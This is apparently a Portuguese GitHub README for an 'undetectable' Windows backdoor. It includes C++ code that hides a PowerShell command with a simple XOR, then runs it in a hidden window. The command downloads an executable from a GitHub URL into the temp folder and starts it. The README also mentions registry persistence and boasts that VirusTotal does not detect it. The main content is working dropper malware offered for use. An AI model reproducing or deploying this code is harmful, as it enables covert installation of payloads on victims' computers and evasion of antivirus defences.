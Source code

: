 # Backdoor-Indetectavel
A função do backdoor é fazer download de um executável via powershell direto na pasta e temp, em seguida executar o arquivo, tudo usando uma função onde a janela do console fica no modo em que não seja visível para o usuário. Esse método é comum em criadores de malware, onde muitos usam métodos mais complexos para evitar a detecção, como programar um arquivo onde ele fica dormindo até alguém pressionar uma tecla, ou até atingir um certo tempo, etc..  

### Criptografia Xor
A matemática da criptografia xor que fiz foi bem simples, onde a chave da criptação é o tamanho da string vezes 2 divido por 100, fazendo com que a chave seja a própia string deseja.
```c++
void Decrypter(char CriptXor[]) {  
    int QuantidadeString = strlen(CriptXor); // Determina o tamanho da string.
    for (int i = 0; i < QuantidadeString; i++){ 
        CriptXor[i] = CriptXor[i] ^ (QuantidadeString*2/100); // A chave da criptografia é o tamanho da string * 2 / 100.
    } 
} 
```
### CreateProcess
Essa parte do código cria o processo powershell usando API do windows, abrindo o processo onde os seguintes comando são coordenados para fazer, fazer download do executável MrQuerino.exe via "wget", alocando na pasta temp com o nome de WelCome.exe e na sequência executando.

```ps1
powershell.exe wget https://github.com/andreyquerino/Backdoor-Indetectavel/blob/main/MrQuerino.exe?raw=true -o C:\\windows\\temp\\WelCome.exe;start C:\\windows\\temp\\WelCome.exe
```

```c++
void Run() {
   char processo[] = "sltfqpkfoo-f{f#tdfw#kwwsp9,,djwkva-`ln,bmgqfzrvfqjml,Ab`hgllq.Jmgfwf`wbufo,aola,nbjm,NqRvfqjml-f{f<qbt>wqvf#.l#@9__tjmgltp__wfns__Tfo@lnf-f{f8pwbqw#@9__tjmgltp__wfns__Tfo@lnf-f{f";
   Decrypter(processo); //Função para decriptar
   STARTUPINFO pinfo; //contém detalhes de como todas as coisas devem ser cuidadas antes do início do processo 
   PROCESS_INFORMATION info; //contém detalhes sobre o novo processo, processo pai, seu processo filho, outros threads e como ele funcionará 
   memset(&pinfo, 0, sizeof(pinfo));
   CreateProcess(NULL, processo, NULL, NULL, TRUE, CREATE_NO_WINDOW, NULL, NULL, &pinfo, &info); //API CreateProcess que cria um processo powershell.exe usando a variável acima e canaliza a entrada, saída e erro para o HANDLE usando o & info criado acima
}
```
### Persistência
Como bônus tive liberdade criar um registro de persistência no windows onde toda vez que iniciar o sistema abra o executável.

### Virus Total 
Até a data desta postam, não teve detecção no virus total.
https://www.virustotal.com/gui/file/8ff653ded39076b02dea1ab8ec367afc16d2b8e8e5f6c7e92b1a8572f2147748/detection
